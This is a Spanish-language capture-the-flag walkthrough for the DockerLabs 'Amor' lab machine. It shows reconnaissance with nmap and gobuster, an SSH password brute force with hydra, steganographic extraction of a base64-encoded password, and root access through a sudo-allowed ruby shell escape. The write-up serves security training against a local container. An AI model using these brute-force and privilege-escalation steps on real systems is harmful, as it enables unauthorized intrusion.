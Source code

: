 #Amor DockerLabs - 15/05/2024

#web - https://dockerlabs.es/#/

Realizamos un escaneo de nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:18 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00010s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecurSEC S.L
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.27 seconds
```

Encontramos un puerto 80 al cual accedemos:

![Captura de pantalla 2024-05-15 185252](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/79eda3a9-5edc-4533-8754-6f427123fdd9)

Hacemos un escaneo de directorios con gobuster pero no encontramos nada:

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt       
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/server-status        (Status: 403) [Size: 275]
Progress: 661680 / 661683 (100.00%)
===============================================================
Finished
===============================================================
```

Igualmente vemos a ver que tiene la pagina web y se ven reportes donde encontramos uno muy interesante:

![Captura de pantalla 2024-05-15 185307](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/2fcf8350-3dcf-4c12-9d5e-532b10445255)


Vemos un usuario "juan" despedido asi que nos olvidamos de el y otro llamado "carlota"
Procedemos a hacer un ataque de fuerza bruta con hydra:

```shell
└─$ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-15 18:49:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-15 18:49:47
```

Nos encuentra la contraseña asi que procemos a entrar con su usuario:

```shell
└─$ ssh carlota@172.17.0.2                                                
carlota@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)
```

Intente hacer un "sudo -l" y un "find / -perm -4000 -user root 2>/dev/null" pero no hay nada interesante.
Buscando por los directorios encontramos:

```shell
carlota@602e73150064:~/Desktop/fotos/vacaciones$
```

Donde hay un archivo ".jpg" y nos lo descargamos en nuestra maquina local

```shell
└─$ scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Desktop/Machines/Amor/
```

Usamos steghide para encontrar la información oculta del archivo por si encontramos algo:

```shell
└─$ steghide extract -sf imagen.jpg
Enter passphrase: 
the file "secret.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "secret.txt".

```

```shell
└─$ cat secret.txt
ZXNsYWNhc2FkZXBpbnlwb24
```

Encontramos algo asi que lo vamos a desencriptar:

```shell
└─$ echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode
eslacasadepinypon
```

Pensando en que puede ser eso pensé que era una contraseña pero no encontraba otro usuario, intente con el usuario "root" pero nada me meti otra vez al servidor ssh a navegar por los directorios y encontramos un usuario nuevo:

![Captura de pantalla 2024-05-15 185222](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/e3dcba9f-9a7d-435f-9259-6c033cda849b)

Entramos con el usuario "oscar" y su contraseña:

```shell
└─$ ssh oscar@172.17.0.2  
oscar@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)
```

Vemos que podemos entrar y ahora intentamos escalar privilegios con este usuario a ver si con este podemos:

```shell
$ sudo -l
Matching Defaults entries for oscar on 602e73150064:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on 602e73150064:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Vemos que podemos escalar privilegios, entramos en "https://gtfobins.github.io/gtfobins/env/".
Buscamos ruby y pegamos el comando de sudo en la terminal:

```shell
$ sudo ruby -e 'exec "/bin/sh"'
```

```shell
# whoami
root
```
